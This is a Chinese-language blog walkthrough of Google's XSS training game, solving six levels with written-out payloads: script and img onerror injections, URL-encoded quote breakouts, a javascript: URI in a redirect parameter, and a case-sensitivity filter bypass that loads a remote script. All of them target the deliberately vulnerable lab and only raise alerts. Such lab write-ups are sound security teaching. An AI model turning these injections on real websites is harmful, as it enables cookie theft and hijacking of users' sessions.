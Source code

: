```yaml
---
layout: post
title: google xss game 通关攻略
date: 2019-01-12
modified: 2019-01-12
categories: 
- 

tags:
- xss
- 翻译
---
```


<!-- # google的xss游戏通关攻略 -->
## [『第一关』](https://xss-game.appspot.com/level1)
第一关是个非常脆弱的反射性xss攻击。向url或者form表单中注入xss代码都可以实现攻击。把下面的俩例子粘贴到表单中，点击搜索按钮：
```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```
<!-- more -->
如果把上面的俩例子注入到url中，点击go按钮（这个按钮是这个假浏览器的一部分），攻击可以生效。唯一的限制就是，如果拼接到url后面代码中包含一个分号，是不会起作用的。上面的第二个例子中，也可以省略分号，因为这script脚本只有一行。

但是，如果把分号用url编码成`%3B`,然后注入到url中，也可以攻击生效。注意，还需要在攻击代码之前添加`?query=`。因此就是连接下面三个片段：
1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

那么完整的url就是：

```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```


## [『第二关』](https://xss-game.appspot.com/level2)
第二关是一个关于存储型的xss攻击。这一关的做了一些过滤，防止你直接注入`script`标签。但是img标签是可以用的。而img标签允许可以添加一些监听函数（比如可以增加`onerror`），这里面是包含js代码的。

```
<img src="x" onerror="alert('xss')">
```

一旦攻击代码通过表单提交，每次载入这个页面，我们的js代码就可以在用户的浏览器运行--或者任何人--只要他们访问了这个网页。这也是为什么存储型的xss比反射性的危害更大。

我没有找到一个直接向url中注入代码的方法。

## [『第三关』](https://xss-game.appspot.com/level3)
为了通过第三关，我只能使用Safari (10.0.3)，因为Firefox (51.0.1) and Chrome (55.0.2883.95)都阻止向url中注入一个空格，不管有没有进行url编码。我用下面的url在safari中成功通过第三关。
```
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
但我还是想用firefox通过。所以我拷贝了safari中叫做level3的cookie。我做了一下的步骤：
1. 我设置safari使用Burp proxy。
2. 我用上面的方法通过第一关和第二关。
2. 我用上面的添加了攻击代码的url访问访问第三关。当alert()弹出的时候，游戏就会设置一个叫做level3的cookie。
1. 我复制了这三个cookie
    ```
    level1=f148716ef4ed1ba0f192cde4618f8dc5; level2=b5e530302374aa71cc3028c810b63641; level3=d5ce029d0680b3816a349da0d055fcfa;
    ```
下面的代码是如何在火狐和chrome的开发者工具的console窗口设置新的cookie
```
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
```

现在就可以在火狐或者Chrome中进入下一关。不像那个由这个游戏设置的cookie，我们自己手动设置的cookie在此次回话结束后就过期。所以，如果你现在关闭`xss- game.appspot.com`的标签页，再重新打开这个网页，就会发现无法到第四关。这是因为第三关的cookie在刚才回话结束后就失效了。因此，最好的办法是手动给cookie设置过期时间的`expire`属性。

```
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa;expires=' Fri, 22 July 2022 5:34:56 GMT'";
```
也可以像这样设置cookie的其他属性，这里关于`document.cookie`[说明][2]非常详细。
 
组装img的代码， 如果我使用单引号提前截断，就可以注入
https://xss-game.appspot.com/level3/frame#1' onerror="alert(1)"/>

## 『第四关』
我没做出来。我谷歌了一些答案，但是并没有得到预期的结果。最终，我发现，在这三个浏览器中，如果你把下面的字符串输入到表单中，然后点击「create button」按钮，它是可以生效的。
```
');alert();var b=('
```

但是，要想直接注入url中使攻击生效，你必须对攻击的字符串进行url编码：
```
%27%29%3Balert%28%29%3Bvar+b%3D%28%27
```

有很多网站可以替你做这些。但是他们有bug，不可信。最近，我开始使用一个在python2.7在默认包含的方法。

```python
>>> import urllib
>>> foo = "');alert();var b=('"
>>> urllib.quote_plus(foo)
'%27%29%3Balert%28%29%3Bvar+b%3D%28%27'
```

记住，在变量的赋值中，用双引号包裹攻击字符串。也不要忘记，移除python在输出结果外边的单引号。在python3中有轻微的不同。我在StackExchange.com的一个[答案][3]中学到了这个。

与第一关中的url拼接类似，我们需要向攻击的字符串中添加合适的变量名，以及在变量名之前添加`?`和变量名之后添加`=`。也就是说连接下面的几个部分:
1. `https://xss-game.appspot.com/level4/frame`
2. `?timer=`
3. `%27%29%3Balert%28%29%3Bvar+b%3D%28%27`

这样可以得到：
```code
https://xss-game.appspot.com/level4/frame?timer=%27%29%3Balert%28%29%3Bvar+b%3D%28%27
```

然后点击这个假的浏览器中的『go』按钮。

## [『第五关』](https://xss-game.appspot.com/level5)

为了通过这一关，需要按照以下的步骤：
1. 点击『sign up』链接。
2. 在下一页，url会变成这样：

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=confirm
   ```
  
   在url中把`next`的值从`confirm`变成`javascript:alert(1)`。
3. 点击假浏览器中的『go』按钮。点击这个按钮可以改变『Next >>』的`href`连接的地址。在点击『go』按钮之前，如果把鼠标悬浮到『Next >>』上，目标地址是：

   ```code
   https://xss-game.appspot.com/level5/frame/confirm
   ```

   实际中，`href`的值相对路径连接，只是一个『confirm』。当把『confirm』变成`javascript:alert(1)`，url就被设置为：
   
   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
   ```

   此时，点击『go』按钮，把鼠标悬浮到『Next >>』上，目标地址是：

   ```
   javascript:alert(1)
   ```
  
   用户手动编辑了url后，『href』的链接就变成用户的输入。
4. 点击『Next >>』链接，会显示一个弹出框，这个游戏会设置一个新的cookie，显示一个信息框，提示说你可以进入下一关。

我认为这个课程是说如果你不能注入标签，你也可以注入在真实的资源标识符前面添加`javascript:` 。我不得不点击所有四个提示，直到我按照提示4的连接[this IETF draft](https://tools.ietf.org/html/draft-hoehrmann-javascript-scheme-00)

## [『第六关』](https://xss-game.appspot.com/level6)

对于第六关，我得好好找找答案。实际上，这是一个客户端自定义的正则表达式的匹配过滤，这个过滤大小写敏感，过滤掉`http` or `https`开头的url。所以，一下是一个成功的url：

```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```

我用了一个[xss.rocks][4]无害的js文件

我没有猜答案。我查看了源代码，看到在接下来的函数中阻止我注入`http`或者`https`.我也没把正则表达式拿来测试。我在 w3scholl.com ["Try It" page][5]测试js
字符串的match()方法.

这个函数可以再源代码的57行看到：
```javascript
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```

其中的正则`/^https?:\/\//`可以匹配`http`或者`https`。如果开发者增加了i标记，这个正则就可以匹配大写或者小写。大小写不敏感的正则是`/^https?:\/\//i`。

我猜这一关的课主要是告诉你，应该浏览所有的源代码，看看开发者是不是写了客户端过滤的代码，看看他们是不是也犯错误。


[1]: https://xss-game.appspot.com/
[2]: https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie
[3]: http://stackoverflow.com/a/9345102
[4]: http://xss.rocks/
[5]: http://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_match_regexp2

